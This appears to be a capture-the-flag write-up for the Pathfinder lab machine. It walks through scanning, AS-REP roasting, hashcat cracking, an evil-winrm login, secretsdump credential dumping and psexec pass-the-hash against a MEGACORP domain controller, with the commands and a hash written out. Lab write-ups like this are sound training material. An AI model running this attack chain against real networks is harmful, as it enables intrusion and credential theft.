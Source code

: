 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  

sudo masscan -p1-65535 10.10.10.30 -e tun0 --rate=1000  
![alt text](./img/pathfinder05.PNG?raw=true)  
  
Only usefull information with the command “enum4linux”  
![alt text](./img/pathfinder01.PNG?raw=true)  

nmap -A -p 49667,49720,49676,49677,593,139,3269,389,9389,135,3268,49664,464,47001,636,49700,49665,49666,49672,5985,445,53,49683,88 10.10.10.30  
![alt text](./img/pathfinder02.PNG?raw=true)  

Tried to connect with smbclient  
![alt text](./img/pathfinder03.PNG?raw=true)  

Hummm let’s try with the credential found on SHIELD machine  
![alt text](./img/pathfinder04.PNG?raw=true)  

rpcclient 10.10.10.30 -W=MEGACORP -U=sandra  
![alt text](./img/pathfinder06.PNG?raw=true)  

GetUserSPNs.py MEGACORP.LOCAL/sandra:Password1234! -dc-ip 10.10.10.30 -request  
![alt text](./img/pathfinder07.PNG?raw=true)  

## Exploit  
GetNPUsers.py MEGACORP.LOCAL/sandra:SANDRA_PASSWORD! -dc-ip 10.10.10.30 -request  
![alt text](./img/pathfinder08.PNG?raw=true)  

Save the hash in a file and use hashcat to breakit  
hashcat -m 18200 -o cracked krb.txt ~/wordlists/rockyou.txt  
![alt text](./img/pathfinder09.PNG?raw=true)  

Now just connect it with evil-winrm  
evil-winrm -i 10.10.10.30 -u svc_bes -p SVCBES_PASSWORD  
![alt text](./img/pathfinder10.PNG?raw=true)  

Just go to the desktop file and get the flag  
![alt text](./img/pathfinder11.PNG?raw=true)  

## Privesc  
Just run the secretdump.py to get the NTLM hashes  
secretsdump.py MEGACORP.LOCAL/svc_bes:SVCBES_PASSWORD@10.10.10.30 -dc-ip 10.10.10.30  
![alt text](./img/pathfinder12.PNG?raw=true)  

Now we can just use psexec.py with pass-the-hash to access the machine  
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18  
![alt text](./img/pathfinder13.PNG?raw=true)  
  
![alt text](./img/pathfinder14.PNG?raw=true)  

## Discoveries

